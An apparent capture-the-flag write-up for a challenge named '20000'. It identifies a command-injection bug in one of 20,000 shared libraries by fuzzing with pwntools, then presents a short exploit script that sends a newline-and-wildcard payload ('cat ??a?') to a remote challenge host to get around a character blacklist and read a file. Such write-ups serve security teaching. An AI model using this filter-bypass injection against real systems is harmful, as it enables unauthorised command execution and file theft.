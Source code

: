 # 20000

The challenge gives us a main function `20000`, and 20000 different so file. We need to find out the vulnerable lib.

Basically, the `20000` will call `test` function in the so lib. Most of them look lke this:
```c
__int64 test()
{
  char buf; // [rsp+0h] [rbp-40h]
  __int16 v2; // [rsp+30h] [rbp-10h]
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  memset(&buf, 0, 0x30uLL);
  v2 = 0;
  puts("This is lib_1 file.");
  puts("How do you find vulnerable file?");
  read(0, &buf, 0x32uLL);
  system("exit");
  return 0LL;
}
```

We can infer that this is some kind of command injection vulnerability. I decide to fuzz to get the vulnerable lib:
```python
from pwn import *
context.log_level = "DEBUG"
fuzz_str = "a" * 100

def fuzz(i):
    p = process("./20000")
    p.sendlineafter(":", str(i))
    p.sendlineafter("?", fuzz_str)
    p.recvline()
    try:
        result = p.recvline()
        print result
        print "Here it is " + str(i)
        exit()
    except EOFError:
        print "No"
    finally:
        p.close()

for i in range(0, 20000):
    print(str(i + 1))
    fuzz(i + 1)
```

And we can target the fifth so. There are some filters preventing us to choose `;`, `bash`, `sh`, `||`, `&&`, and `$` as input characters. We can bypass them via this script:
```python
from pwn import *
from struct import pack
import time
context.log_level = "DEBUG"

#p = process("./20000")
p = remote("110.10.147.106", 15959)
p.sendlineafter(":", "5")
p.sendlineafter("?", '." \n cat ??a? #"')
p.recvall()
```

